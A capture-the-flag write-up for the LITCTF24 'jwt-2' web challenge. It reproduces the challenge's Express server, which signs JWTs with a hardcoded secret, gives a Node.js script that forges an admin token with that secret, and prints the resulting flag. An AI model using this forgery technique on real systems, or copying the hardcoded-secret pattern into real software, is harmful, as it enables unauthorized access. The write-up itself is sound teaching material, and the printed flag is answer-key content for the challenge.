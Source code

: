 ```yaml
---
title: "LITCTF24 - Jwt 2"
date: 2024-08-13T18:49:06+01:00
tags: ["ctf", "write-up"]
author: "hxuu"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "CTF write-up for Jwt 2"
canonicalURL: ""
disableHLJS: false
disableShare: false
hideSummary: false
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "/images/default-cover.jpg" # default image path/url
    alt: "CTF Write-up Cover Image" # alt text
    caption: "CTF Write-up" # display caption under cover
    relative: false
    hidden: false
editPost:
    URL: "https://github.com/hxuu/content"
    Text: "Suggest Changes"
    appendFilePath: true
---
```


## Challenge Description

```
name: jwt-2
category: web
points: 117
```

its like jwt-1 but this one is harder URL: http://litctf.org:31777/

## Solution

The description is very clear, the vulnerability should be in how the signature
is handled, but instead of no verification at all, we should expect something harder
this time.

My first hunch tells me to brute force the key used to generate the jwt token, but
we're actually given the source code.

```typescript
import express from "express";
import cookieParser from "cookie-parser";
import path from "path";
import fs from "fs";
import crypto from "crypto";

const accounts: [string, string][] = [];

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

const app = express();

const port = process.env.PORT || 3000;

app.listen(port, () =>
  console.log("server up on http://localhost:" + port.toString())
);

app.use(cookieParser());
app.use(express.urlencoded({ extended: true }));

app.use(express.static(path.join(__dirname, "site")));

app.get("/flag", (req, res) => {
  if (!req.cookies.token) {
    console.log('no auth')
    return res.status(403).send("Unauthorized");
  }

  try {
    const token = req.cookies.token;
    // split up token
    const [header, payload, signature] = token.split(".");
    if (!header || !payload || !signature) {
      return res.status(403).send("Unauthorized");
    }
    Buffer.from(header, "base64").toString();
    // decode payload
    const decodedPayload = Buffer.from(payload, "base64").toString();
    // parse payload
    const parsedPayload = JSON.parse(decodedPayload);
		// verify signature
		const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
		if (signature !== expectedSignature) {
			return res.status(403).send('Unauthorized ;)');
		}
    // check if user is admin
    if (parsedPayload.admin || !("name" in parsedPayload)) {
      return res.send(
        fs.readFileSync(path.join(__dirname, "flag.txt"), "utf-8")
      );
    } else {
      return res.status(403).send("Unauthorized");
    }
  } catch {
    return res.status(403).send("Unauthorized");
  }
});

app.post("/login", (req, res) => {
  try {
    const { username, password } = req.body;
    if (!username || !password) {
      return res.status(400).send("Bad Request");
    }
    if (
      accounts.find(
        (account) => account[0] === username && account[1] === password
      )
    ) {
      const token = sign({ name: username, admin: false });
      res.cookie("token", token);
      return res.redirect("/");
    } else {
      return res.status(403).send("Account not found");
    }
  } catch {
    return res.status(400).send("Bad Request");
  }
});


app.post('/signup', (req, res) => {
  try {
    const { username, password } = req.body;
    if (!username || !password) {
      return res.status(400).send('Bad Request');
    }
    if (accounts.find(account => account[0] === username)) {
      return res.status(400).send('Bad Request');
    }
    accounts.push([username, password]);
    const token = sign({ name: username, admin: false });
    res.cookie('token', token);
    return res.redirect('/');
  } catch {
    return res.status(400).send('Bad Request');
  }
});
```

The code creates a JWT-based authentication system using a fixed secret key (`jwtSecret = "xook"`) to sign tokens.

- **Key Use:** The key `"xook"` is used in HMAC SHA-256 to create a signature for the JWT. This signature ensures that the token's integrity can be verified when it's received. If the JWT signature doesn't match the expected signature (generated using the same key), access is denied.

So as you can see, the key is given to us, we just need to extract the code that
creates a valid jwt token from the latter source code, supply the username we used
to access the website, and admin set to True. The code that does that would look something
like this:

```js
const crypto = require('crypto')

// Define the secret key used in signing
const jwtSecret = "xook";

// Function to generate JWT
const sign = (payload) => {
  // Encode the payload to base64
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");

  // Create the JWT header (in base64 format without '=')
  const header = Buffer.from(
    JSON.stringify({ alg: "HS256", typ: "JWT" }),
    "utf-8"
  )
    .toString("base64")
    .replace(/=/g, "");

  // Generate the HMAC SHA-256 signature
  const signature = crypto.createHmac('sha256', jwtSecret)
    .update(header + '.' + jwtPayload)
    .digest('base64')
    .replace(/=/g, '');

  // Return the full JWT token
  return header + "." + jwtPayload + "." + signature;
}

// Test payload
const testPayload = { username: "hxuu", admin: true };

// Generate a token
const token = sign(testPayload);

// Output the generated token
console.log("Generated JWT Token:", token);
```

Running the code above gives a valid token. We just have to replace the cookies given
by the application by our newly crafted token, and then pressing GET FLAG.

![flag](/blog/images/2024-08-13-19-02-45.png)

---

flag is: `LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

Things learned:

* how to weak key can result into compromising jwt tokens
